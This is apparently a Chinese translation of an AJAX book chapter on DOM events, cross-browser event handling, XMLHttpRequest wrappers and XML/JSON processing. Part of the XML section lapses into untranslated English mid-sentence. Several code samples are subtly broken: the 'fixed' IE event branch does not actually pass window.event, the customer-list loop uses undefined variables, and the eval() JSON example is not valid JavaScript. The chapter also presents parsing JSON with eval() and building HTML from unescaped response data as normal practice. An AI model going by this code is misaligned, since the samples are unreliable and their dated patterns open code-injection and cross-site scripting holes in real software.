默认情况下，事件使用冒泡路径而不是捕获路径。但是，在 Firefox 和 Safari 中，可以通过在注册事件时为 `useCapture` 参数传入 `true` 来显式指定使用捕获事件流。如果使用冒泡路径，当某个 DOM 元素上触发事件时（例如用户鼠标点击客户名称节点时），事件会通过沿每个连续的父节点"冒泡"穿过 DOM 节点层次结构，直到遇到一个针对给定事件类型（本例中为 `onclick` 事件）注册了处理函数的节点。在冒泡过程中的任何时刻，都可以通过在符合 W3C 标准的浏览器中调用事件对象的 `stopPropagation()` 方法，或在 Internet Explorer 中将事件对象的 `cancelBubble` 属性设置为 `true` 来中止事件。如果事件的传播未被停止，它将继续冒泡通过 DOM，直到到达文档根节点。

如果使用事件捕获，处理从 DOM 层次的根开始，而不是从事件触发的目标元素开始，并向下传递通过事件实际触发元素的所有祖先元素。在任何阶段，随着事件被从文档根到事件目标的每个连续后代元素捕获，如果事件监听器在注册时将 `useCapture` 选项设置为 `true`，则可以在任何元素上分派事件监听器；否则，事件将被传递给后代元素路径中的下一个元素直到事件目标。在事件到达事件目标元素之后，它便开始通过 DOM 节点冒泡返回。事件捕获和冒泡的一般过程如图 2.1 所示。



**图 2.1** 事件捕获和冒泡

Internet Explorer 在事件捕获方面与此情况略有不同，因为如果使用元素的 `setCapture()` 方法在某个 HTML 元素上设置了捕获，那么即使调用 `setCapture()` 的元素不在事件目标元素的祖先路径中，该元素上附加的处理函数也会在事件触发时被调用。

### 事件绑定

事件对于将用户交互的应用 HTML 与 HTML 中呈现的数据连接起来至关重要。JavaScript 负责响应用户与 DOM 的交互，并更改数据状态或更改 DOM 中的 HTML 元素。此时需要认识的重要一点是，你需要事件来将用户与应用连接起来，我们将在第 3 章"Web 浏览器中的 AJAX"中从模式的角度进一步探讨这一点。

### 内联事件

既然我们已经探讨了事件如何在 HTML DOM 层次结构中传播，我们就可以看看将事件处理函数附加到 HTML 元素的不同方式。附加事件的最简单方法是直接在 HTML 元素上指定一个事件和该事件的处理函数，如下所示：

```html
<div onclick="editName(event)">John Doe</div>
```

在这里，我们将 `editName()` 函数分配给 `<div>` 元素的 `onclick` 事件。`event` 参数被传递给处理函数，以便在基于 Mozilla 的浏览器中使用，这些浏览器期望在处理函数中传入此参数。如果在用户点击客户名称时需要发生多个操作，我们只需添加另一个函数以供同一事件调用。例如，我们可以在用户点击名称时高亮该名称，然后对其进行编辑，可能看起来像这样：

```html
<div onclick="activate(event);editName(event);">John Doe</div>
```

如前所述，你应努力使应用数据和外观尽可能松散耦合。考虑到这一点，为了增加代码与设计的分离，应尽可能少地使用内联事件。

## 编程式事件处理函数定义

将事件附加到 HTML 元素的第二种方式是通过 JavaScript 将事件处理函数分配给 HTML 元素的事件属性，例如：

```javascript
domFirstName.onclick = editName;
```

`editName` 变量实际上是对 `editName()` 函数对象的引用或指针，这之所以可能，是因为在 JavaScript 中函数被视为对象。这通过允许你通过 JavaScript 动态定义给定事件的事件处理函数，提供了 HTML 和 JavaScript 之间更好的分离。这里唯一的缺点是，在不覆盖先前附加的事件处理函数的情况下，无法为该事件分配多个事件处理函数。当然，可以通过创建一个"主"事件处理函数来绕过此限制，该主事件处理函数将事件分派给任意数量的其他函数，如下所示：

```javascript
domFirstName.onclick = nameClicked;
function nameClicked(e) {
    // 检查我们是否在使用 IE
    var evt = (entAjax.IE) ? window.event : e;
    // 调用相关方法
    activate(evt);
    showEditor(evt);
}
```

在这里，我们将主事件处理函数分配给 HTML 元素的 `onclick` 事件，随后将事件传递给其他一些函数，在其中执行某些操作。我们还顺便使该事件处理函数能够跨浏览器友好地工作。`nameClicked` 函数中的第一行检查一个名为 `entAjax.IE` 的全局变量，如果浏览器是 Internet Explorer，则该变量为 `true`，否则为 `false`。（此变量可以在应用启动时设置，以供整个应用使用。）该函数随后将本地事件变量设置为 Internet Explorer 中的全局事件对象，或者设置为已传递给事件处理函数的事件对象（根据 W3C 标准，在大多数其他浏览器中）。

### 事件注册

当你不得不编写主处理函数并将其附加到 HTML 元素时，使用经典的事件处理函数定义会变得相当繁琐。将事件处理函数附加到 HTML 元素的一种更简洁的方法是：在 Internet Explorer 中使用 `attachEvent()` 方法，在其他浏览器中使用 W3C 标准的 `addEventListener()` 方法。使用此类事件注册可以使得在 HTML 元素上发生某些事件时执行多个函数。尽管这在管理事件和为元素附加多个事件处理函数方面使你的工作变得更加轻松，但需要考虑的是，无法保证事件处理函数被触发的顺序。使用此事件注册模型，你可以将多个事件附加到一个 HTML 元素，如下所示：

```javascript
if (entAjax.IE) {
    domFirstName.attachEvent("onmouseover", highlight);
    domFirstName.attachEvent("onclick", edit);
} else {
    domFirstName.addEventListener("mouseover", highlight, false);
    domFirstName.addEventListener("click", edit, false);
}
```

这会注册一个 `mouseover` 和一个 `click` 事件处理程序，它们可以在你的 `domFirstName` HTML 元素上分别触发 `highlight()` 和 `edit()` 函数。注意，在事件注册中，我们使用的是事件处理程序函数的引用，例如 `highlight`，没有括号，而不是 `highlight()`，后者实际上会立即执行处理程序方法。正如我们所提到的，Internet Explorer 在注册事件处理程序时使用的语法与 W3C 标准略有不同，这使得跨浏览器事件处理成为一个热门话题。

在 Internet Explorer 和符合 W3C DOM 2 标准的浏览器中，可以使用 `detachEvent()` 和 `removeEventListener()` 方法分别从 HTML 元素移除事件处理程序。

除了从 HTML 元素附加和移除事件处理程序的语法外，Internet Explorer 与其他主要网页浏览器之间还存在更隐蔽的差异。Internet Explorer 最令人烦恼的问题之一是，无法确定事件处理程序函数附加到哪个元素，从而无法确定调用该事件处理程序函数的元素。另一方面，其他浏览器在触发事件的 HTML 元素的上下文中执行事件处理程序；由此产生的一个结果是，`this` 关键字指的是触发事件的元素。我们可以通过使用外观模式定义自己的跨浏览器事件注册接口来统一这些浏览器差异。

### 跨浏览器事件

由于事件对于连接 AJAX 应用程序非常重要，我们现在花点时间考虑一下存在的重要跨浏览器怪异行为。以跨浏览器方式处理事件时，主要有两个问题。第一个问题是，几乎所有网页浏览器都根据 W3C DOM 事件标准实现其事件模型——除了 Internet Explorer（一如既往）。为了将 Internet Explorer 与网络其他部分协调起来，你需要考虑几件事。

你遇到的第一个问题是，大多数网页浏览器在触发事件的 HTML 元素的上下文中触发事件回调方法。如前所述，这的一个直接结果是，`this` 关键字指的是 HTML 元素本身，而不是回调方法所属的对象。这可能是好事也可能是坏事，具体取决于你的应用程序是如何开发的。另一方面，在 Internet Explorer 中，事件回调中的 `this` 关键字指的是 JavaScript 执行上下文，这可能是一个 JavaScript 对象。让我们看看如何调和这种差异，并让开发者根据情况选择使用哪种模型。


首先，我们像这样定义用于管理事件的`EventManager`单例对象：

```javascript
entAjax.EventManager = {};
```

定义对象后，我们可以添加一些方法，比如`attachEvent()`，它接受一个HTML元素、一个事件类型、一个回调函数和一个布尔值（指定是否启用捕获）作为参数——这与W3C标准定义的接口非常相似。这就是我们以跨浏览器方式充分附加事件所需的一切。

```javascript
entAjax.EventManager.attachEvent = function(element, type,
callback, setCapture) {
// 检查浏览器是IE还是符合W3C标准的浏览器
if (element.attachEvent) {
// 创建两个带有函数引用的expando属性
element['ntb_' + type] = function() {
callback.call(element);
};
// 将我们的expando函数引用之一附加到事件
element.attachEvent('on'+type, element['ntb_' + type]);
// 如果指定了，则设置捕获
if (setCapture) element.setCapture(true);
}
else if (element.addEventListener) {
element.addEventListener(type, callback, setCapture);
}
}
```

在我们的`attachEvent()`方法中，我们检查了Internet Explorer和其他浏览器类型。对于支持W3C标准的浏览器，我们可以直接使用`addEventListener()`方法。另一方面，对于Internet Explorer，我们需要做一些技巧处理；首先，我们创建一个匿名函数，使用`Function`对象的`call`方法调用回调方法，并将其设置为可通过JavaScript设置在HTML元素上的自定义属性访问，这也称为“expando”属性，例如：

```javascript
element['ntb_' + type] = function() {callback.call(element);};
```

这样做的结果是，当匿名函数被调用时，它将在HTML元素的上下文中调用回调方法，这意味着`this`关键字应该像W3C模型中那样指的是HTML元素。这是可能的，因为匿名函数创建了一个闭包，因此仍然可以访问其定义所在的外部函数的作用域，即使外部函数已经执行完毕。这是我们讨论闭包和HTML元素时应该竖起耳朵听的场合之一，这是Internet Explorer中内存泄漏的配方。最后，我们可以使用`attachEvent()`方法在元素上实际设置事件处理程序。

```javascript
element.attachEvent('on'+type, element['ntb_' + type]);
```

这就是以跨浏览器方式将事件附加到HTML元素所需的全部代码。除了Internet Explorer内存泄漏问题外，Internet Explorer和W3C事件模型之间的第二个关键区别是，Internet Explorer中的事件对象是通过全局`window`对象访问的，而不是作为参数传递给事件处理程序函数。为了弥合这一差距，你只需要将`window.event`对象的引用作为参数传递给你的处理程序来拼接进去。你可以修改前面的Internet Explorer分支代码，使其看起来像这样：

```javascript
// 检查是否是Internet Explorer
if (element.attachEvent) {
element['ntb_' + type] = function() {
callback.call(element);
};
element.attachEvent('on'+type, element['ntb_' + type]);
}
```

现在，你总可以在任何浏览器中访问作为第一个参数传递给事件回调函数的事件对象。通过使用`attachEvent()`和`addEventListener()`方法，你不仅可以注册多个事件监听器，还可以移除特定的事件监听器。移除事件处理程序对于避免Internet Explorer⁵（版本6和7）中的内存泄漏问题很重要，这种问题是由JavaScript和DOM之间创建循环引用引起的。由于它使用的垃圾收集方法类型，JavaScript和DOM之间的循环引用无法被垃圾收集。这样做的结果是，当网页刷新时，JavaScript和DOM之间循环引用消耗的内存不会被释放；刷新网页浏览器后，这会消耗大量系统内存并导致性能问题，如第5章所述。

### 事件对象

`Event`对象包含你关于任何给定DOM事件所需的所有信息。在Internet Explorer中，它是通过全局`window`对象的成员访问的，而在所有其他浏览器中，它是作为参数传递给事件处理程序方法的——实际上，对于Opera和Safari中的大部分事件功能，两者都支持W3C和Internet Explorer模型。我们已经展示了一种让Internet Explorer遵循W3C模型传递`Event`对象作为参数的方法，但`Event`对象的接口在Internet Explorer和W3C模型之间也存在差异。最值得注意的是，Internet Explorer使用`srcElement`属性来确定事件触发的HTML元素，而W3C定义了`target`属性。浏览器之间最重要的属性和差异如表2.3所示。

| Internet Explorer | Mozilla / W3C | 描述 |
| --- | --- | --- |
| clientX / Y | clientX / Y, pageX / Y | clientX / Y返回不考虑文档滚动位置的事件坐标，而pageX / Y则考虑了滚动。 |
| N/A | currentTarget | 事件处理程序所附加到的HTML元素。 |
| keyCode, altKey, ctrlKey, shiftKey | keyCode, altKey, ctrlKey, shiftKey | 各种按键事件修饰符，用于检查是否按下了Shift或Ctrl键。 |
| srcElement | target | 事件实际发生的HTML元素。Opera和Safari两者都支持。 |
| type | type | 不带“on”前缀的事件类型。 |
| fromElement / toElement | relatedTarget | fromElement/toElement仅用于mouseover/mouseout事件。Opera和Safari支持relatedTarget。 |

**表2.3** IE和Mozilla中的重要浏览器差异

## 客户端-服务器消息传递

到目前为止讨论的所有内容在构建丰富的客户端应用程序（即所谓的DHTML）中都极为重要。然而，真正改变DHTML面貌的是微软在Internet Explorer 5中引入的`XHR对象`。XHR对象首次通过JavaScript原生提供了访问服务器数据的能力，而无需刷新整个网页。事实上，最初的AJAX启用型Web应用程序就是Microsoft Outlook Web Access，它正是该对象开发的驱动力。通过允许向服务器和从服务器传输少量数据——我们称之为微请求（microrequests），因为它们通常包含的信息包比标准HTTP请求整个网页要小得多——XHR对象改变了Web开发的面貌。简而言之，微请求是HTTP请求（`GET`、`POST`、`DELETE`、`PUT`等），其负载包含某种机器可读的数据，既发送到服务器，也从服务器接收；当然，鉴于AJAX的名称，数据通常以XML格式进行格式化。使用微请求可以通过更细粒度的方式使用资源，显著减少服务器负载，从而提高应用程序性能并降低服务器资源需求。这种向服务器发起微请求的概念一直是AJAX技术迅速普及的驱动因素。在Firefox和Safari都采用了微软的事实标准之后，它实际上为全球Web开发者打开了闸门。

虽然我们自然对AJAX和微请求如何帮助开发者简化工作感兴趣，但同时，对于Web应用程序的最终用户来说，使用微请求也有很大的好处。通过减少必须处理和通过网络传输的数据量，您可以显著降低最终用户所体验到的应用程序延迟。为了解决JavaScript是单线程的这一事实，通常使用异步请求向服务器发送请求。异步请求被发送到服务器；此时，JavaScript线程不会阻塞程序等待服务器响应，而是继续执行。当Web浏览器收到服务器的响应时，使用单个JavaScript线程执行在发送请求之前为该特定请求注册的回调函数。这进一步改善了用户体验，因为应用程序在数据在后台与服务器之间传递时仍然保持响应。

了解如何使用XHR对象当然是所有AJAX应用程序的基础，因此也是跨浏览器库中首先要封装的内容之一。虽然XHR是客户端与服务器之间通信的事实标准，W3C也一直在努力制定DOM 3规范，该规范定义了复制XHR大部分功能的save和load方法。同样，其他技术如Flash和XForms也支持加载和保存数据，类似于XHR对象。

### XMLHttpRequest基础

如果您之前没有见过，我们先来回顾一下使用XHR对象的基础知识。

```javascript
var xhr = null;
if (entAjax.IE6) {
    xhr = new ActiveXObject("Microsoft.XMLHTTP");
} else if (entAjax.IE7 || entAjax.FF || entAjax.SF ||
  entAjax.OP) {
    xhr = new XMLHttpRequest();
} else {
    // no XHR so we are out of luck, maybe degrade and use an
    // IFRAME?
}
xhr.open("GET", "http://www.example.com/myResource", false);
xhr.send(null);
showResult(xhr);
```

这是定义XHR对象的最简单方式。这里最困难的部分是使用以下语句检查我们使用的浏览器：

```javascript
document.implementation.createDocument
```

您经常看到它被用作检查Firefox或Safari的方法。通常，这只做一次并存储在全局变量中，例如`entAjax.FF`。无论如何，对于Firefox，您可以像任何其他原生JavaScript对象一样实例化XHR对象。另一方面，如果您处理的是Internet Explorer，则需要将XHR对象创建为`ActiveXObject`。这当然不是理想的，因为用户可能由于某种原因在其浏览器中关闭了ActiveX——当然，假设他们实际上启用了JavaScript。微软在这里有点追赶的意思，在Internet Explorer 7中，XHR对象被实现为原生JavaScript对象，因此不需要浏览器特定的XHR代码。除了对象的创建之外，其他浏览器厂商都紧跟Internet Explorer的实现，所以我们很幸运，XHR接口在不同浏览器中是相似的。创建XHR对象后，我们将回调分配给`onreadystatechange`事件。每次XHR对象的`readyState`属性更改时，都会触发此回调。最后，我们通过调用`open()`创建与服务器的连接，并指定请求类型（`GET`、`POST`等）、服务器资源的URL，以及一个标志来指示请求是同步的（`false`）还是异步的（`true`），我们还可以为安全资源发送可选的用户名和密码。打开连接后，我们所需要做的就是调用`send(data)`，它接受要发送到服务器的任何数据作为单个参数，然后请求就开始了。

### XHR工厂模式

每次我们想要创建XHR对象时，我们当然不希望在整个应用程序中重复这种跨浏览器代码，所以让我们稍微重构一下代码。由于我们在不同浏览器中创建XHR对象的方式存在差异，这是应用工厂模式的理想场所。

```javascript
entAjax.XHRFactory = {
    createXHR: function() {
        try {
            if (entAjax.IE6) {
                xhr = new ActiveXObject("Microsoft.XMLHTTP");
            } else if (entAjax.IE7 || entAjax.FF || entAjax.SF ||
              entAjax.OP) {
                xhr = new XMLHttpRequest();
            } else {
                // no XHR, maybe degrade and use an IFRAME?
                throw("XHR not supported in your browser");
            }
        } catch(e) {
            // no XHR object available - think about degrading
            alert(e.message);
        }
        return xhr;
    }
}
var xhr = entAjax.XHRFactory.createXHR();
```

我们在这里所做的是创建了一个名为`XHRFactory`的单例（Singleton）对象——使用对象字面量表示法——并在该对象上定义了一个名为`createXHR()`的函数。`createXHR()`函数负责处理浏览器之间创建XHR对象的所有细微差别。我们也可以在这里添加更多功能，例如XHR对象池等。

如果浏览器不支持XHR对象——这种情况很少见——我们总是可以优雅地降级，使用其他客户端-服务器通信方法，例如隐藏的`<iframe>`，或者建议用户升级他们的Web浏览器。

### 异步请求

我们之前提到，AJAX的一大好处是使用与服务器的异步通信可以使应用程序对最终用户来说更具响应性。在我们使用XHR对象的第一个示例中，我们向服务器请求某个资源，然后调用了一个`showResult()`函数，该函数大概会使用DOM将响应插入到应用程序用户界面中。要使请求异步，我们需要做两件事。首先，我们需要为`onreadystatechange`属性分配一个事件处理程序，当XHR对象的`readyState`属性更改时，该处理程序将被触发。其次，我们需要在`open()`方法的第三个参数中传递`true`，以向XHR对象表明我们希望异步发出请求。我们还将借此机会添加一些特殊功能，以支持以跨浏览器方式中止XHR。

```javascript
entAjax.HttpRequest = function() {
    this.handler = "";
    this.async = true;
    this.responseType = "xml";
    this.httpObj = entAjax.XHRFactory.createXHR();
}
```

```javascript
entAjax.HttpRequest.prototype.get = function() {
    this.httpObj.open("GET", this.handler, this.async);
    this.httpObj.onreadystatechange = entAjax.close(this,
    this.requestComplete);
    if (this.responseType == "xml")
        this.httpObj.setRequestHeader("Content-Type","text/xml");
    this.httpObj.send(null);
}
```

```javascript
entAjax.HttpRequest.prototype.requestComplete = function() {
}
```

```javascript
entAjax.HttpRequest.prototype.abort = function() {
    this.httpObj.onreadystatechange = function () {};
    this.httpObj.abort();
}
```

```javascript
var xhr = new entAjax.HttpRequest();
xhr.handler = "http://www.example.com/myResource";
xhr.get();
```

我们再次利用JavaScript闭包和匿名函数来处理readyState的变化。使用闭包的优势在于，当处理函数实际执行时，匿名函数可以访问`xhr`变量。这样，当readyState值更改时，`xhr`对象在事件处理程序中仍然可以访问。

### `this`关键字的麻烦

由于`this`关键字的含义取决于它在何处执行，因此在使用闭包时需要小心。特别是，当您开始编写事件驱动的面向对象JavaScript时，可能会遇到问题。例如，在`HttpRequest`类中，您需要使用`entAjax.close()`方法，以便在将方法附加到浏览器原生`XMLHttpRequest`对象的`onreadystatechange`事件时，给`this`关键字赋予正确的含义。您可能认为可以简单地像这样设置`onreadystatechange`事件：

```javascript
this.httpObj.onreadystatechange =
this.requestComplete;
```

你也可以像这样使用闭包：

```javascript
this.httpObj.onreadystatechange = function()
{this.requestComplete();}
```


然而，在这两种情况下，`requestComplete()` 方法中对 `this` 的任何引用——这些引用本应指向 `HttpRequest` 类的特定实例——实际上会指向 `window` 对象，这显然不是你想要达到的效果。`entAjax.close` 函数看起来是这样的：

```javascript
entAjax.close = function(context, func, params) {
    if (null == params) {
        return function() {
            return func.apply(context, arguments);
        }
    } else {
        return function() {
            return func.apply(context, params);
        }
    }
}
```

以下两段代码：

```javascript
var _this = this;
this.httpObj.onreadystatechange = function()
{_this.requestComplete()};
```

等价于使用以下方式：

```javascript
this.httpObj.onreadystatechange = entAjax.close(this,
this.requestComplete);
```

第二种方法稍微简洁一些，而且还有一个额外的好处：不会与 DOM 产生无意的循环引用，这种循环引用在 Internet Explorer 中可能导致内存泄漏。

### 服务器响应

在异步请求环境中，分配给 `onreadystatechange` 事件的事件处理器非常重要，因为它会在请求完成时通知你，此时你就可以访问来自服务器的响应。在我们的 `onreadystatechange` 事件处理器中，你需要再次做两件事。

首先，你需要检查 XHR 对象 `readyState` 属性的值。`readyState` 可以取 0 到 4 之间的任意值，分别表示请求处于*未初始化*、*加载中*、*已加载*、*交互中*或*完成*状态。实际上，你只需要检查 `readyState` 是否为 4，其余的值在大多数情况下不仅无用，而且在不同的 Web 浏览器之间也不一致。

你可以通过添加 `completeCallback` 字段来更新 `HttpRequest` 类的构造函数，并填写 `requestComplete()` 方法，以便在 `readyState` 和 `status` 分别为 4 和 200 时实际调用 `completeCallback` 函数。

```javascript
entAjax.HttpRequest = function() {
    this.handler = "";
    this.async = true;
    this.responseType = "xml";
    this.httpObj = entAjax.XHRFactory.createXHR();
    this.completeCallback = null;
}
```

```javascript
entAjax.HttpRequest.prototype.requestComplete = function() {
    if (this.httpObj.readyState == 4) {
        if (this.httpObj.status == 200) {
            this.completeCallback.call(this, this);
        }
    }
}
```

```javascript
var xhr = new entAjax.HttpRequest();
xhr.async = true;
xhr.handler = "http://www.example.com/myResource";
xhr.completeCallback = showResult;
xhr.get();
```

在你的 `onreadystatechange` 事件处理器 `requestComplete()` 方法中，你首先通过检查 XHR 对象的 `readyState` 属性值是否为 4 来确保服务器已经完成请求；否则，你需要继续等待。

在确定服务器返回了某些内容之后，检查 XHR 对象的 `status` 属性，它反映了实际的 HTTP 状态，例如 200 表示"OK"或 304 表示"未修改"，并确保服务器返回了"OK"状态。当你研究高级 AJAX 缓存时，`status` 字段会很有用。

当你确定服务器不仅已经响应，而且返回了有效的响应时，你就可以实际访问响应消息了。根据从服务器预期的数据类型，有两种不同的方式来访问响应。你可以使用 XHR 对象的 `responseText` 属性将响应作为纯文本字符串访问，或者，你可以访问 `responseXML` 属性，它将响应作为有效的 XML DOM 文档返回。如果你期望从服务器返回 XML，你还应该确保在请求中将 `content-type` 头设置为 `text/xml`。

响应类型的选择很大程度上取决于你的 AJAX 应用程序的架构。最常见的格式是 XML、(X)HTML 和 JavaScript——实际上是 JSON，但我们稍后会讲到。

如果应用程序期望服务器返回 XML 格式的数据，可能来自某个 Web 服务，你通常使用 `responseXML` 属性。另一方面，如果服务器只是返回一段预生成的 HTML 标记片段，直接插入到网页中，或者一些要在客户端执行的 JavaScript，那么 `responseText` 属性是标准选择。

### 向服务器发送数据

我们已经了解了如何使用标准 HTTP GET 请求从服务器检索数据，但我们也需要向服务器发送数据。这已经可以通过以特定方式格式化处理器 URL 并添加查询字符串参数来实现，例如：

```javascript
myXhr.handler = "customers?lastName=doe";
```

然而，在某些情况下，你可能希望使用 POST 请求来发送数据，这样你可以发送更大量的数据，或者只是为了将我们的 AJAX 功能分层到现有的依赖于 POST 表单数据的服务器后端脚本之上。

为了实现这种灵活性，你可以向 `HttpRequest` 类添加一些功能，允许你添加任意数量的参数，如果你发出 GET 请求，这些参数将被添加到查询字符串中；如果发出 POST 请求，则将被添加到请求内容中。你可以添加一个 `post()` 方法和一个 `setParam()` 方法，如下所示，同时对构造函数和 `get()` 方法进行小的修改。

```javascript
entAjax.HttpRequest = function() {
    this.handler = "";
    this.async = true;
    this.responseType = "xml";
    this.httpObj = entAjax.XHRFactory.createXHR();
    this.completeCallback = null;
    this.params = {};
}
```

```javascript
entAjax.HttpRequest.prototype.post = function(sData) {
    // 发送提供的数据或 params
    if (sData == null) {
        sData = "";
        for (var name in this.params) {
            sData += escape(name) + "=" + escape(this.params[name]) + "&";
        }
        sData = sData.substring(0, sData.length-1);
    }
    // 现在使用 POST 发送数据
    this.httpObj.open("POST", this.handler, this.async);
    this.httpObj.onreadystatechange = entAjax.close(this,
    this.requestComplete);
    if (this.responseType == "xml")
        this.httpObj.setRequestHeader("Content-Type","text/xml");
    this.httpObj.send(sData);
}
```

```javascript
entAjax.HttpRequest.prototype.setParam = function(name, value)
{
    if (value == null)
        delete this.params[name];
    else
        this.params[name] = value;
}
```

通过这种方式，你可以创建一个 XHR 对象并设置要发送到服务器的各种参数，然后使用 POST 或 GET 发送它们，如下所示：

```javascript
var myXHR = new entAjax.HttpRequest();
myXHR.setParam("firstName", "John");
myXHR.setParam("lastName", "Doe");
myXHR.setParam("id", "1234");
myXHR.handler = "customers/save";
myXHR.post(); // 或 myXHR.get()，无论哪种方式，参数都会被发送回去
```

### 处理数据

如上一节所述，你可以将来自服务器的 XHR 响应作为有效的 XML 文档或简单的纯文本访问。我们将在这里花一些篇幅讨论我们可能期望使用的各种数据格式，以及如何处理它们。

在整个讨论过程中，重要的是要记住，你决定使用的数据格式高度取决于手头的应用程序，并且可能对应用程序性能产生很大影响，包括网络延迟以及客户端和服务器的处理速度。我们将在第 6 章"AJAX 架构"中更详细地讨论其中一些问题，但现在，我们只是先掌握使用 XML DOM 查找节点的基础知识，以及使用 JavaScript 对象表示法（JSON）或 XHTML。

## XML

如果数据以 XML 形式返回并访问，我们可以通过 XML DOM、使用 XPath 或使用 XSLT 来处理 XML 文档中的数据。

使用 XML DOM 在返回的数据中导航可能很繁琐。类似地，你可以使用 XPath 在 DOM 中导航并访问要处理的节点列表。在这三种选项中，最高效的选择是使用 XSLT 将 XML 数据转换为 HTML 片段，这样可以轻松地使用 HTML 元素的 `innerHTML` 属性插入到文档中，或者甚至转换为另一个 XML 文档，该文档可以使用 XML DOM、XPath 更轻松地访问，或者再次进行转换。

与 Web 浏览器中的大多数技术一样，XPath 和 XSLT 在 Firefox 和 Internet Explorer 中的实现差异巨大，而且在 Safari 和 Opera 中几乎完全不存在。因此，如果你针对 Safari 或 Opera Web 浏览器，可以直接跳过。

基于 Mozilla 的浏览器中的 `XMLDocument` 对象支持一个名为 `evaluate` 的方法，该方法可以将 XPath 查询应用于 `XMLDocument` 对象并返回一组节点作为结果。另一方面，在 Internet Explorer 中，XML 对象有两个名为 `selectSingleNode(xpath)` 和 `selectNodes(xpath)` 的方法，它们的作用不言自明。

尽管大多数人 resort to the arduous task of traversing the XML DOM manually, the parent, child, and sibling relationships between the nodes or selecting groups of nodes are based on the element name, which is only slightly more useful. Although this is fairly

操作简单直接，但可能会导致代码膨胀，而且如果仅处理深层节点层次结构，速度也可能较慢。一个不错的替代方案是使用 XPath，或者如果你要创建大量 HTML 片段，可以使用 XSLT。

```javascript
var xhr = new entAjax.HttpRequest();
xhr.completeCallback = buildCustomerList;
xhr.handler = "http://www.example.com/myResource";
xhr.get();
function buildCustomerList(xhr) {
  var html = "<div>";
  // do DOM methods for creating nodes in the web page etc.
  var xResponse = xhr.httpObj.responseXML;
  var aCustomers = xResponse.getElementsByTagName('Customer');
  var len = aCustomers.length;
  for (var i=0; i<len; i++) {
    customer = aCustomer[i];
    html += "<span>"+
      customer.getElementsByTagName("firstName")[0].text+"</span>";
    html += "<span>"+
      customer.getElementsByTagName("lastName")[0].text+"</span>";
  }
  return html + "</div>";
}
```

在这个例子中，我们调用服务器请求客户列表，并将服务器响应作为 XML 文档访问。在确认服务器响应有效后，我们调用 `buildCustomerList()` 函数，并将 XML 文档作为唯一参数传递给它。

在这个函数中，我们首先创建一个外部 `<div>` 来包含要显示的客户记录列表。然后，我们使用 DOM 方法 `getElementsByTagName(tagName)` 来访问所有 XML `<customer>` 元素的数组。这个简单的例子只是创建了一个 HTML 字符串，其中包含每条客户记录的名和姓。我们将在后续章节中探讨使用 XPath 和 XSLT 等更高级的技术进行格式化。

# JavaScript 对象表示法

使用 XML 进行数据格式化的一种流行替代方案是 JavaScript 对象表示法（JavaScript Object Notation，简称 JSON），这是一种数据序列化格式，使用大多数编程语言所熟悉的语法来表达对象和数组等基本数据结构。

对象以逗号分隔的冒号分隔的名称-值对列表形式创建。值可以是多种类型，例如对象本身、字符串、数字、布尔值、数组和 `null`；这些都是 JavaScript 语言的基本类型。图 2.2 来自 JSON 网站⁶，简明地描述了 JSON 对象的语法。



## 图 2.2 JSON 对象语法

JSON 之所以在 JavaScript 开发者中如此流行，原因有二。首先，它可以使用 JavaScript 的 `eval()` 函数进行求值，从而实例化为 JavaScript 对象。其次，JSON 数据可以跨域传输，使人们能够进行诸如混搭（mashups）之类的操作。

话虽如此，我们也不要忘记这个简单的想法同样适用于 XML 格式的数据。从服务器获取的一些 JSON 数据可能如下所示：

```json
{
  "firstName": "John",
  "lastName": "Doe",
  "address": {
    "street": "555 Sunnyside Drive",
    "city": "Vancouver"
  }
}
```

要实际将这些数据实例化为 JavaScript 对象，只需将其传递给 `eval()` 函数即可，如下所示：

```javascript
var Customer = eval('({
  "firstName": "John",
  "lastName": "Doe",
  "address": {
    "street": "555 Sunnyside Drive",
    "city": "Vancouver"
  }
})');
alert(Customer.firstName + ' ' + Customer.lastName);
```

与用于 XML 格式数据的 XSLT 不同，除了手动解析 JavaScript 对象之外，没有标准方法将 JSON 格式数据转换为 HTML 片段。这是我们在选择数据格式时需要考虑的一个重要因素。

## 总结

希望本章能让你回顾 JavaScript、DOM、CSS 和 XHR 对象等重要 AJAX 技术的基础知识。至此，你应该对 DOM API 的关键方面有了良好的理解，例如如何通过 JavaScript 访问和操作 HTML 元素，以及以跨浏览器方式处理 DOM 事件时的一些细微差别。

同样，CSS 和动态样式现在应该已经不陌生了。XHR 对象不再是什么神秘的黑魔法，XML 特别是 JSON 也不应该是陌生的概念。

最后，JavaScript 在将这些重要技术整合在一起中所扮演的角色应该已经清晰；你现在应该了解如何使用 JavaScript 以更加熟悉的面向对象方式编写代码，从而以更经典的意义利用继承。

你已经看到 Web 浏览器中 AJAX 的各个部分是如何被分离到结构（DOM）、样式（CSS）和数据（XHR）中的，以及它们是如何通过 JavaScript 联系在一起的。

## 资源


- 装饰器模式（Decorator Pattern），http://en.wikipedia.org/wiki/Decorator_pattern
- Dean Edwards，http://dean.edwards.name/weblog/2006/03/base/
- Douglas Crockford，http://javascript.crockford.com/inheritance.html
- Kevin Lindsay，http://www.kevlindev.com/tutorials/javascript/inheritance/index.htm
- 事件驱动编程（Event Driven Programming），http://en.wikipedia.org/wiki/
- IE 中的内存泄漏问题（Memory leak problem in IE），http://msdn.microsoft.com/library/en-us/IETechCol/dnwebgen/ie_leak_patterns.asp
- JSON，http://www.json.org
- Douglas Crockford，http://javascript.crockford.com/prototypal.html，
- DOM Level 2，http://www.w3.org/TR/DOM-Level-2-Core/core.html
- HTML，http://www.w3.org/TR/html401
- DOM Level 2 事件（DOM Level 2 Events），http://www.w3.org/TR/DOM-Level-2-Events/
- 外观模式（Façade Pattern），http://en.wikipedia.org/wiki/Fa%C3%A7ade_pattern
- 观察者模式（Observer Pattern），http://en.wikipedia.org/wiki/Observer_pattern
